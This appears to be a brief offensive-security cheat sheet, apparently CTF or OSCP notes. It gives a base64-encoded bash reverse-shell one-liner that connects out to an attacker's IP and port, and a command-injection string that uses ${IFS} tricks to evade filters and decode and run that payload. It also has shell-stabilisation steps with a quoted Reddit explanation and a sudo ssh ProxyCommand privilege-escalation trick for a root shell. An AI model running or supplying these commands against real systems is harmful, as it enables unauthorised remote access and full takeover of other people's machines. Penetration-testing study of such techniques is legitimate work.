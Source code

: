 
Create Payload
```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```
Create reverse Shell
```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

Make the shell stable:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
```
explanation:
https://www.reddit.com/r/oscp/comments/tjzega/reason_to_use_stty_raw_echo_for_making_an/
When you get a reverse shell, whatever you type in is echoed back before execution. You don't have to disable this, but it can be annoying. I'm assuming this is a behavior of netcat.
Ctrl z backgrounds the application, and fg brings it back to the foreground. This gives you your host terminal back for you to change its behavior.
Pressing enter twice ensures you get your prompt back. The first enter being the shell back to the foreground, the second one is interpreted by the reverse shell and prints the prompt again.

#### Privilege escalation
Run the following command in an SSH session to run as superuser (root)[[Privilege escalation]]
```BASH
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


